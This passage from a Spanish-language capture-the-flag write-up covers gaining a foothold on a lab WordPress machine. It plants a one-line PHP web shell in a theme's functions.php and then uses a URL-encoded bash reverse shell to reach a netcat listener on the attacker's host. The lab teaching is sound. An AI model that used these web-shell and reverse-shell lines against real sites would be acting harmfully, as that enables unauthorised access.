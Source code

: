 ## Foothold

Decidí intentar cargar código PHP malicioso en el archivo 'functions.php' del tema activo 'Twenty Twenty-Two'. Este método es común en WordPress para lograr RCE.

```php
system($_GET['cmd']);
```

![](/assets/img/dockerlabs-writeup-norc/norc1_17.png)

Navegando a ```http://norc.labs/wp-content/themes/twentytwentytwo/functions.php?cmd=id```. Confirmé que podía ejecutar comandos en el sistema.

![](/assets/img/dockerlabs-writeup-norc/norc1_18.png)

Para obtener una shell interactiva, configuré un listener en mi máquina.

```terminal
/home/kali/Documents/dockerlabs/norc:-$ nc -lnvp 1234
	listening on [any] 1234 ...
```

Luego utilicé una shell URL encodeada para consegir acceso remoto, ```http://norc.labs/wp-content/themes/twentytwentytwo/functions.php?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.0.171%2F1234%200%3E%261%22```.

![](/assets/img/dockerlabs-writeup-norc/norc1_19.png)
